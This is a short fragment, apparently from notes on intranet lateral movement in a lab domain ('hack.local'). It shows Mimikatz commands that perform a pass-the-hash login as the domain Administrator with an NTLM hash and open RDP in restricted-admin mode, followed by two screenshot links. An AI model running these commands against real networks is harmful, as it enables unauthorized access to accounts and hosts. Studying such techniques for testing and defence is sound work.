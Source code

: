 ```bash
mimikatz.exe
privilege::debug
sekurlsa::pth /user:Administrator /domain:hack.local /ntlm:96b26b0744352a9d91516132c3fe485d "/run:mstsc.exe /restrictedadmin"
```

![Untitled](%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91%E7%A7%BB%E5%8A%A8%20784f931e99eb4194ad082bd2d99c37ec/Untitled%2015.png)

![Untitled](%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91%E7%A7%BB%E5%8A%A8%20784f931e99eb4194ad082bd2d99c37ec/Untitled%2016.png)
